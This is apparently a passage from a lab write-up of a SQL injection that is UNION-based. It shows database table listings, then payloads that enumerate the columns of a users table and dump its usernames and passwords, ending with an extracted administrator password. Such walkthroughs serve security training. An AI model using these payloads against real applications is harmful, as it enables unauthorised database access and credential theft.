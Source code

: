   ```html
                              <th>column_column_usage</th>
                          </tr>
                          <tr>
                              <th>pg_stat_progress_create_index</th>
                          </tr>
                          <tr>
                              <th>pg_constraint</th>
                          </tr>
                          <tr>
                              <th>pg_stat_user_functions</th>
                          </tr>
                          <tr>
                              <th>pg_conversion</th>
                          </tr>
                          <tr>
                              <th>foreign_data_wrapper_options</th>
                          </tr>
                          </tbody>
                      </table>
                  </div>
              </section>
  ```

  

- Get the details of the columns: 

`'+UNION+SELECT+column_name,+NULL+FROM+information_schema.columns+WHERE+table_name='users_jsnvah'--`

```html
                       <tr>
                            <th>username_oeefzo</th>
                        </tr>
                       <tr>
                            <th>password_mldxse</th>
                        </tr>
```

- show the username and password of all user:

`'+UNION+SELECT+username_oeefzo,+password_mldxse+FROM+users_jsnvah--`

```html
                        <tr>
                            <th>administrator</th>
                            <td>msxqu3mqnmqsa5n2xblk</td>
                        </tr>
```
